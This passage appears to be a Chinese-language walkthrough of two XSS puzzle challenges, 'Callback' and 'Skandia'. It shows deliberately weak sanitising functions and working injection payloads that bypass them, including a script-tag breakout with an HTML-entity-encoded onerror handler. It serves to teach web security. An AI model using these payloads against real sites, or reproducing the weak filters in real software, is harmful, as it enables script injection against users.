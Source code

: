[document.createComment](https://developer.mozilla.org/zh-CN/docs/Web/API/Document/createComment)

## Callback

```
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/); 

  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```

回调函数是有限制的（只能由字母、[、]、单引号组成），不能用任意的，obj是一个序列化后的对象，json转换函数中将【<】替换为十六进制的编码\u003C，这个过滤导致我们无法使用这样的标签。我们可控的就callback与obj的值，callback不一定要是一个函数，我们需要做的就是闭合 `({"userdata":"` 这段字符串想办法绕过obj，让它不在是一个对象，否则我们是不可能弹窗的:

payload
`'#';alert(1)//`

## Skandia 

```
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

这道题目中没有过滤函数，仅仅只有一个大小写函数。
目标：还是通过关闭存在的 `<script>` 标签创建一个对大小写不敏感的标签来执行 `onerror` 函数。
需要注意的是 JS 对大小写敏感，html 对大小写不敏感。
那么可以创建 `<img>` 标签，利用其属性函数 `onerror` ， 将它赋值为 `alert(1)`，并转换 alter为 `html实体字符` 就可以完成任务。

html 字符实体类似这样：

> &entity_name;
或者
> &#entity_number;

如需显示小于号，我们必须这样写：`&lt;` 或 `&#60;` 或 `&#x3c;`

```
binascii.hexlify('alert')
Out: '616c657274'
```

写img标签时，需要加上 `src` 属性。

`</script><img src onerror=&#97&#108&#101&#114&#116(1)>`
or
`</script><img src onerror=&#x61&#x6c&#x65&#x72&#x74(1)>`

